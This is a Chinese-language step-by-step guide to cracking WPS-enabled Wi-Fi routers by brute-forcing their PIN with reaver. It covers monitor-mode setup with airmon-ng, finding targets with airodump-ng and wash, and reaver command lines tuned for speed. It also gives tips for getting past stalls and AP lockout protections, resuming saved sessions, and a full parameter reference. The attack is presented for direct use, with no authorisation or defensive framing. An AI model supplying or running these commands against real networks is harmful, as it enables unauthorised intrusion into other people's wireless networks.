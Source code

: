 
reaver 被用于使用于破解开启 wps 服务的路由器,通过爆破 pin 码

1.安装reaver:
	apt-get install reaver
   
2.ifconfig 查看无线网卡名称:
	ifconfig
   
3.设置网卡为混杂模式:
	sudo airmon-ng start wlan0

4.获取附近wifi信号:
	sudo airodump-ng mon0

5.过滤开启 wps 服务的路由器:
	sudo wash -i mon0


6.配置项:


信号非常好:
	reaver -i mon0 -b MAC -a -S -vv -d 0 -c 1
信号普通:
	reaver -i mon0 -b MAC -a -S -vv -d .5 -t .5 -c 1
信号一般:
	reaver -i mon0 -b MAC -a -S -vv -c 1












reaver -i mon0 -b MAC -a -S -vv //普通用法

如果，90.9%进程后死机或停机，请记下PIN前四位数，用指令：
reaver -i mon0 -b MAC -a -vv -p XXXX(PIN前四位数)

其他命令
airodump-ng mon0 用来扫描周围无线信号
wash -i mon0 -C 这个是用来检测周围无线支持PIN的路由

如果一直pin不动，尝试加-N参数
reaver -i mon0 -b xx:xx:xx:xx:xx:xx -d 0 -vv -a -S -N
也可以加延时 -t 3 -b 3

常用参数释疑
-i 监听后接口名称 网卡的监视接口，通常是mon0
-b 目标mac地址 AP的MAC地址
-a 自动检测目标AP最佳配置
-S 使用最小的DH key，可以提高PJ速度
-vv 显示更多的非严重警告
-d 即delay每穷举一次的闲置时间 预设为1秒
reaver -i mon0 -b MAC -d 0
用上述指令可以大幅加快PJ速度 但是有些AP可能受不了
-c （后跟频道数） 指定频道,可以方便找到信号
-p PIN码四位或八位 //已知pin码前4位可以带此参数，指定从这个数字开始pin。可以用8位直接找到密码。
-N 不发送NACK信息（如果一直pin不动，可以尝试这个参数）
-n 对目标AP总是发送NACK，默认自动
-t 即timeout每次穷举等待反馈的最长时间，如果信号不错，可以这样设置
reaver -i mon0 -b MAC -d 0 -t .5
-m, --mac=<mac> 指定本机MAC地址，在AP有MAC过滤的时候需要使用

小结-PJ时应因状况调整参数:


当出现有百分数时你就可以用crtl+c来暂停，它会将reaver的进度表文件保存在
1.3版：
/etc/reaver/MAC地址.wpc
1.4版：
/usr/local/etc/reaver/MAC地址.wpc
用资源管理器，手工将以MAC地址命名的、后辍为wpc的文件拷贝到U盘或硬盘中，
下次重启动后，再手工复制到/etc/reaver/ 目录下即可。






不是所有的路由都支持pin学习。AP关闭了WPS、或者没有QSS滴，会出现
WARNING: Failed to associate with XX:XX:XX:XX:XX:XX (ESSID: XXXX)
学习过程中也可随时随地按Ctrl+C终止PJ，重复同一个PIN码 或 timeou t可终止，reaver会自动保存进度。
继续上次的PJ，则再次在终端中发送:
reaver -i mon0 -b MAC -vv
这条指令下达后，会让你选y或n，选y后就继续了
当reaver确定前4位PIN密码后，其工作完成任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了（总共一万一千个密码）。





参数详细说明:
-m, --mac=<mac> MAC of the host system
指定本机MAC地址，在AP有MAC过滤的时候需要使用
-e, --essid=<ssid> ESSID of the target AP
路由器的ESSID，一般不用指定
-c, --channel=<channel> Set the 802.11 channel for the interface (implies -f)
信号的频道，如果不指定会自动扫描
-o, --out-file=<file> Send output to a log file [stdout]
标准输出到文件
-s, --session=<file> Restore a previous session file
恢复进程文件
-C, --exec=<command> Execute the supplied command upon successful pin recovery
pin成功后执行命令
-D, --daemonize Daemonize reaver
设置reaver成Daemon
-a, --auto Auto detect the best advanced options for the target AP
对目标AP自动检测高级参数
-f, --fixed Disable channel hopping
禁止频道跳转
-5, --5ghz Use 5GHz 802.11 channels
使用5G频道
-v, --verbose Display non-critical warnings (-vv for more)
显示不重要警告信息 -vv 可以显示更多
-q, --quiet Only display critical messages
只显示关键信息
-h, --help Show help
显示帮助

-vv 显示更多的非严重警告

高级参数:
-p, --pin=<wps pin> Use the specified 4 or 8 digit WPS pin
直接读取psk（本人测试未成功，建议用网卡自带软件获取）
-d, --delay=<seconds> Set the delay between pin attempts [1]
pin间延时，默认1秒，推荐设0
-l, --lock-delay=<seconds> Set the time to wait if the AP locks WPS pin attempts [60]
AP锁定WPS后等待时间
-g, --max-attempts=<num> Quit after num pin attempts
最大pin次数
-x, --fail-wait=<seconds> Set the time to sleep after 10 unexpected failures [0]
10次意外失败后等待时间，默认0秒
-r, --recurring-delay=<x:y> Sleep for y seconds every x pin attempts
每x次pin后等待y秒
-t, --timeout=<seconds> Set the receive timeout period [5]
收包超时，默认5秒
-T, --m57-timeout=<seconds> Set the M5/M7 timeout period [0.20]
M5/M7超时，默认0.2秒
-A, --no-associate Do not associate with the AP (association must be done by another application)
不连入AP（连入过程必须有其他程序完成）
-N, --no-nacks Do not send NACK messages when out of order packets are received
不发送NACK信息（如果一直pin不动，可以尝试这个参数）
-S, --dh-small Use small DH keys to improve crack speed
使用小DH关键值提高速度（推荐使用）
-L, --ignore-locks Ignore locked state reported by the target AP
忽略目标AP报告的锁定状态
-E, --eap-terminate Terminate each WPS session with an EAP FAIL packet
每当收到EAP失败包就终止WPS进程
-n, --nack Target AP always sends a NACK [Auto]
对目标AP总是发送NACK，默认自动
-w, --win7 Mimic a Windows 7 registrar [False]
模拟win7注册，默认关闭
